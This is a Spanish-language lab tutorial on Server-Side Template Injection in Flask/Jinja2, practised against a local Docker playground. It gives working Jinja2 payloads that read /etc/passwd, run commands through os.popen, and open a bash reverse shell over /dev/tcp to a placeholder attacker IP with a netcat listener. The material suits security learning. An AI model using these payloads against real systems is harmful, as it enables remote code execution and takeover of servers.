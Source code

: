 

----
- Tag: #SERVER-SIDE #TEMPLATE #INJECTION #SSTI
----

El **Server-Side Template Injection** (**SSTI**) es una vulnerabilidad de seguridad en la que un atacante puede inyectar código malicioso en una **plantilla** de servidor.

Las plantillas de servidor son archivos que contienen código que se utiliza para generar **contenido dinámico** en una aplicación web. Los atacantes pueden aprovechar una vulnerabilidad de SSTI para inyectar código malicioso en una plantilla de servidor, lo que les permite ejecutar comandos en el servidor y obtener acceso no autorizado tanto a la aplicación web como a posibles datos sensibles.

Por ejemplo, imagina que una aplicación web utiliza plantillas de servidor para generar correos electrónicos personalizados. Un atacante podría aprovechar una vulnerabilidad de **SSTI** para inyectar código malicioso en la plantilla de correo electrónico, lo que permitiría al atacante ejecutar comandos en el servidor y obtener acceso no autorizado a los datos sensibles de la aplicación web.

En un caso práctico, los atacantes pueden detectar si una aplicación Flask está en uso, por ejemplo, utilizando herramientas como **WhatWeb**. Si un atacante detecta que una aplicación **Flask** está en uso, puede intentar explotar una vulnerabilidad de **SSTI**, ya que Flask utiliza el motor de plantillas **Jinja2**, que es vulnerable a este tipo de ataque.

Para los atacantes, detectar una aplicación Flask o Python puede ser un primer paso en el proceso de intentar explotar una vulnerabilidad de SSTI. Sin embargo, los atacantes también pueden intentar identificar vulnerabilidades de SSTI en otras aplicaciones web que utilicen diferentes frameworks de plantillas, como Django, Ruby on Rails, entre otros.

Para prevenir los ataques de SSTI, los desarrolladores de aplicaciones web deben validar y filtrar adecuadamente la entrada del usuario y utilizar herramientas y frameworks de plantillas seguros que implementen medidas de seguridad para prevenir la inyección de código malicioso.

---
# SSTI (Server Side Template Injection)

Existe un recurso en la web que es totalmenet gratutito llamado [Infayer.com](https://infayer.com/archivos/803)

Para resumirlo rápidamente, **SSTI** es una vulnerabilidad que aprovecha una implementación insegura de un motor de plantillas (*template engine*). Los motores de plantilla son empleados por las aplicaciones web para la presentación de datos dinámicos.

Por lo general, a menudo muchas inserciones de los usuarios que son posteriormente reflejadas en la respuesta de la aplicación web son interpretadas como vulnerabilidades de **Cross-Site Scripting (XSS)**, sin embargo, a través del aprovechamiento de esta vulnerabilidad es posible atacar directamente a los componentes internos del servidor web del objetivo.

Algunos motores de plantilla populares son los siguientes:

- **PHP**: Smarty, Twig
- **Java**: Velocity, FreeMarker
- **Python**: Jinja, Mako, Tornado
- **JavaScript**: Jade, Rage
- **Ruby**: Liquid

Todo lo que involucre el ataque como si directo al servidor es un server template injection, que van contra los usuarios que se aprovecha de plantillas para cargar contenido dinamico, cuando veamos que es más del lado del cliente para poder derivarlo a un XSS y robarle la sesión de un usuario o corresponda ahi estaríamos hablando de un CSTI (Cleint Site Template Injection) y otra cosa muy distinta el SSTI (Server Side Template Injection) 

Desplegamos el laboratorio virtual en el cual estaremos practicando:

Para a correr un docker run para convertir nuestro puerto 8089 al puerto 8089 del contenedor 

```bash
docker run -p 8089:8089 -d filipkarc/ssti-flask-hacking-playgorund 
```

Al finalizar para que no quede alzado ese network en nuestro sistema debemos hacer un 

```bash
docker network ls 
docker network rm $(docker network ls -q)
```

o 

```bash
docker ps 
docker stop ID-CONTENEDOR
docker rm ID-CONTENEDOR
```
Para ver si esta alzado el servicio lo podemos hacer con 

```bash
docker ps 
```

Nos damos cuenta que esta corriendo un flask por detrás 

>FLASK: Es un "micro" framework escrito en python y concebido  para facilitar el desarrollo de aplicaciones web bajo el patrón MVC.

Es decir que si ahora nosotros abrimos nuestro `localhost:8089` en el navegador deberíamos ver una página como esta :

![Pasted image 20241004224134](https://hackmd.io/_uploads/BJBsI4RAA.png)

Ahora en el panel de login podemos ingresar cualquier nombre y nos debería aparecer el siguiente mensaje :

![Pasted image 20241004224310](https://hackmd.io/_uploads/HJ63U4AAC.png)

Esto estaría cargando plantillas para que de forma dinamica represente contenido, el cual puede ser modificado a través de la url : 

![image](https://hackmd.io/_uploads/HyfeP40CA.png)


Si jugaramos con whatweb para ver a lo que nos enfrentamos a tecnologías respecta o el gestor de contenido que pueda estar por detrás : 

```bash 
whatweb "http://127.0.0.1:8089/"
```
Nos damos cuenta que corre por detrás python en la siguiente versión 3.9.13 o si vieramos un servicio flask, se podría pensar en realizar en posibles SSTI que se puedan aplicar del lado del atacante como vector de ataqu.
![image](https://hackmd.io/_uploads/HylUK4CRC.png)


pero siempre que veamos que tenemos control de input en el ouput de la url, prueben siempre hacer lo siguiente a ver si lo calcula, en caso que si lo calcule se podría tensar la cosa

![image](https://hackmd.io/_uploads/HkFMq4ARR.png)

Nos damos que nos calcula la operatoria 
![image](https://hackmd.io/_uploads/S1mr94ARA.png)

Támbien hay una forma para hacer que el número `5` nos lo represente por el número de la derecha 

```bash 
{{'5'*5}}
```

![image](https://hackmd.io/_uploads/BkFaqVRC0.png)


si quieren saber de donde proviene todo esto, pueden revisar la página : 
- https://github.com/swisskyrepo/PayloadsAllTheThings

En donde podremos encontrar un monton de vulnerbilidades contempladas y podemos filtrar por `Server Side Template Injection`

Nos vamos al apartado de Python:
![image](https://hackmd.io/_uploads/H1FAsERCC.png)

Y dentro del repo nos indicará injectiones básicamos como la que acabamos de ver de `{{'5'*5}}` y muchos más ejemplos 


Uno como atacante lo primero que haría es tratar de leer un archivo de la máquina, tenemos varios ejemplos pero no todos son funcionales, la cuestión sería ir probando uno por uno como estos ejemplos: 

![image](https://hackmd.io/_uploads/SkYya4RCC.png)

```python 
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

Una vez ejecutado el comando indicado, veremos que con éxito logramos listar el `/etc/passwd` de la máquina 

![image](https://hackmd.io/_uploads/rJr2T4RRA.png)

Podriamos probar con `id`

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
```python 
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('whoami').read() }}
```

Si quisieramos obtener acceso a la máquina nosotros nos podríamos poner en la escucha por el puerto `443` desde nuestra consola con netcat:

```bash 
nc -nlvp 443
```

Y desde la url de la páguina en donde va el whoami, usar el tipico oneliner para obtener una revershell

```bash 
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >%26 /dev/tcp/our-ip/443 0>%261"').read() }}
```

>& = %26 urlencode ya que normalmente la interpreta de diferente manera si no hacemos esto

Si le damos enter en la url con este comando y estamos a la escucha por el puerto 443 y estaríamos dentro de la máquina 

Para confirmar podemos hacer un hostname para saber la ip actual 

```bash 
hostname -I
```

![image](https://hackmd.io/_uploads/H1hcZHA0R.png)

Y por ende hemos acabado de comprometer la máquina.

Esta es una de los muchos más casos que existen para diferentes lenguajes de programación como java, django templates, groovy, la idea sería lo mismo pero existen payloads distintos que la página **PayloadsAllTheThings** las contempla 

Si nos encontramos con una web que nos permita ejecutar comando através de la url es cuestión de identificar el lenguaje e ir probando los payloads  